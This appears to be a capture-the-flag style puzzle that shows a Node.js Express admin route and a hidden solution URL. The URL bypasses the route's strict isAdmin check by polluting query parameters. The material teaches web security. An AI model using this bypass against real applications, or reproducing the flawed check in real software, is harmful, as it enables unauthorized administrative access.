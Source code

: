 # Toxic Admin Check
Can you reach the administration panel?
```nodejs
const express = require('express')
const app = express()
const port = 3004

app.get('/admin', (req, res) => {
    const isAdmin = req.query?.user?.isAdmin
    if (isAdmin === true) {
        res.send('Welcome to admin panel!')
    } else {
        res.send('Access Denied!')
    }
})

app.listen(port, () => {
    console.log(`Example app listening on port ${port}`)
})
```
<details>
  <summary>Toggle to see the solution</summary>

  ```
  http://localhost:3004/admin?user[isAdmin]=1&user=isAdmin
  ```

</details>